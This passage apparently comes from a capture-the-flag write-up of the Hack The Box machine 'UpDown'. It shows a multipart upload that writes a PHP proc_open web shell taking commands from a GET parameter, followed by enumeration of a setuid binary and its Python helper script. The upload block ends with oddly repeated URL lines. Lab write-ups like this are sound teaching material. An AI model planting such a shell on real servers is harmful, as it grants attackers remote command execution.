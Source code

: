 ## Remote Code Execution

They missed disabling `proc_popen`, so I can use that. I write a webshell:

```http
-----------------------------33647835311173492931897951583
Content-Disposition: form-data; name="file"; filename="x.phar"
Content-Type: application/octet-stream

<?php $f = '/var/www/dev/x.php'; $p = '<?php $p=proc_open($_GET["cmd"],[["pipe","r"],["pipe","w"],["pipe","w"]],$o);echo stream_get_contents($o[1]);proc_close($p);?>'; file_put_contents($f, $p); echo "wrote: $f"; ?>
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
http://10.10.14.11/
...
```

It works:

![](_/htb-updown-20241216-5.png)

There's a `setuid` binary owned by the `developer` user:

```console
www-data@updown:/home/developer/dev$ ls -l
ls -l
total 24
-rwsr-x--- 1 developer www-data 16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22  2022 siteisup_test.py
```

```console
$ strings siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
...
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py
...
```

```python
www-data@updown:/home/developer/dev$ cat siteisup_test.py
cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
